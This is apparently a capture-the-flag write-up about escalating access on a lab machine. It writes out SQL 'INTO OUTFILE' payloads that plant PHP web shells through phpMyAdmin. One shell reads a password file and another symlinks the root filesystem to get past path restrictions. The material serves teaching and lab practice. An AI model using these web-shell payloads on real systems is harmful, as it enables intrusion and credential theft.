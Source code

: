 # suEXEC

Using the same way we injected a php file for our reverse shell, we will inject a file which lets us read any file and directory on the filesystem.

I uploaded this file in phpmyadmin after logging in with the credentials found in writeup3.
```sql
SELECT '<?php system("id; cat /home/LOOKATME/password");?>' INTO OUTFILE '/var/www/forum/templates_c/test.php'
```
I figured I'd ensure that my access to the path /home/LOOKATME/password was denied, but actually it turns out www-data owns the /home/LOOKATME folder for some reason.
This shouldn't be the case. Not sure if this counts as an exploit, but for sure this is a misconfiguration.

The goal is to do something like this, so that if we encounter a path we aren't allowed to access, we can circumvent it using symlinks.

```sql
SELECT '<?php system("ln -sf / test99.php");?>' INTO OUTFILE '/var/www/forum/templates_c/su_exec.php'
```
In case system() is blocked, you can try the builtin function symlink()


[Source](https://www.exploit-db.com/exploits/27397)
